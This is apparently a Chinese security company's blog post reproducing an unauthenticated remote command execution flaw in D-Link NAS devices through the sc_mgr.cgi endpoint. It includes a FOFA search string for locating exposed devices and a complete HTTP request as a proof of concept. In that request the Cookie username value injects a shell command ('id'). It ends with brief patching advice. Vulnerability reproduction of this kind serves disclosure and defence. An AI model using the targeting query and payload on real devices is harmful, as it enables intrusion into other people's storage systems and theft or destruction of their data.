 #  【漏洞复现】D-Link NAS设备 sc_mgr.cgi 未授权RCE漏洞复现   
河北镌远  河北镌远网络科技有限公司   2024-11-19 09:39  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5xic9OHsHiafbUVg4naibSQnNsuMVRYqdlLLzHovhH9jcrrEaj6ia94y9TTpBJTlQDQBcgwMczFq8BRURR9fJIdeLg/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz/UC6M1Hf0SSEpr1lbbiatiaxPJc8y9JcOeRyJOIhsibwSxWPmHCqJwzWX8xTMz9MYLpHKAkRfY2fcMqovyxrR9KpAw/640?wx_fmt=gif "")  
  
点击箭头处  
“蓝色字”  
，关注我们哦！！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhSVRquL7y9jy4EhPsON055InLbQBxQeyfaAH2kmQuoQY9qyfWrNl3Fv4lJibwUiaVNWV2Ic1PCZAXg/640?wx_fmt=png&from=appmsg "")  
  
**产品简介**  
  
  
**D-Link NAS设备是一种基于网络的存储解决方案，作为网络存储设备，旨在为企业提供大容量的存储空间，并通过网络连接实现数据的访问和管理。**这种设备不仅满足了企业对数据存储的需求，还提供了高效的数据共享和访问功能，提升了企业数据管理的效率和灵活性。广泛应用于各种企业场景，如文档存储、图片和视频存储、数据库备份等。特别是在需要高效数据共享和访问的企业环境中，如设计工作室、广告公司、医疗机构等，D-Link NAS设备更是发挥了其强大的功能和优势。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhSVRquL7y9jy4EhPsON055InLbQBxQeyfaAH2kmQuoQY9qyfWrNl3Fv4lJibwUiaVNWV2Ic1PCZAXg/640?wx_fmt=png&from=appmsg "")  
  
**漏洞概述**  
  
  
**D-Link NAS设备 /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info 接口存在远程命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhSVRquL7y9jy4EhPsON055InLbQBxQeyfaAH2kmQuoQY9qyfWrNl3Fv4lJibwUiaVNWV2Ic1PCZAXg/640?wx_fmt=png&from=appmsg "")  
  
**复现环境**  
  
  
**FOFA：**  
  
body="/cgi-bin/login_mgr.cgi"  &&  body="cmd=cgi_get_ssl_info"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhSVRquL7y9jy4EhPsON055Zib4UiaWnmiabdT13qYlQtGwTtqJrUDfDW63gowTzNKSq6I2F6pcJtLCQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5xic9OHsHiafbhCXSibBQ5mxzJzh4MA1GHjBHU32knsQ5FES2E2micLW3gRfCNQfEa2o7YfjYKwiaiaebvHHorvuzosA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhSVRquL7y9jy4EhPsON055InLbQBxQeyfaAH2kmQuoQY9qyfWrNl3Fv4lJibwUiaVNWV2Ic1PCZAXg/640?wx_fmt=png&from=appmsg "")  
  
**漏洞复现**  
  
  
**PoC**  
  
GET /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info HTTP/1.1  
  
**Host:**  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0  
  
**Accept: */***  
  
Accept-Encoding: gzip, deflate  
  
**Connection: close**  
  
Cookie: username=mopfdfsewo'& id & echo 'mopfdfsewo;  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhSVRquL7y9jy4EhPsON055Zib4UiaWnmiabdT13qYlQtGwTtqJrUDfDW63gowTzNKSq6I2F6pcJtLCQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5xic9OHsHiafbhCXSibBQ5mxzJzh4MA1GHjnI09ACdNrABVIOJiap3kXhY5DqWbYT0NmKY3csgDcx7d8VbklfTGj8g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWhSVRquL7y9jy4EhPsON055InLbQBxQeyfaAH2kmQuoQY9qyfWrNl3Fv4lJibwUiaVNWV2Ic1PCZAXg/640?wx_fmt=png&from=appmsg "")  
  
**修复建议**  
  
  
**应用补丁和更新： 用户应下载并安装 D-Link 提供的任何固件更新。**  
  
**限制网络访问： 作为临时措施，对 NAS 管理界面的网络访问应仅限于受信任的 IP 地址。**  
  
**监控固件更新： 受影响的设备用户应密切关注 D-Link 即将提供的任何安全补丁。**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5xic9OHsHiafZBZZ3yiaibiaZCPcv4FLUUkic7Juicamh0zLreL6e2KWZpz8iaeeyEnrmV98VmYN5UibkP0tQQoRz5FAswg/640?wx_fmt=png "")  
  
文章来源：  
网络  
  
公众号“河北镌远网络科技有限公司”所发表内容注明来源的，版权归原出处所有（无法查证版权的或者未注明出处的均来自网络，系转载，转载的目的在于传递更多信息，版权属于原作者。如有侵权，请联系，小编会第一时间删除处理）  
  
  
  
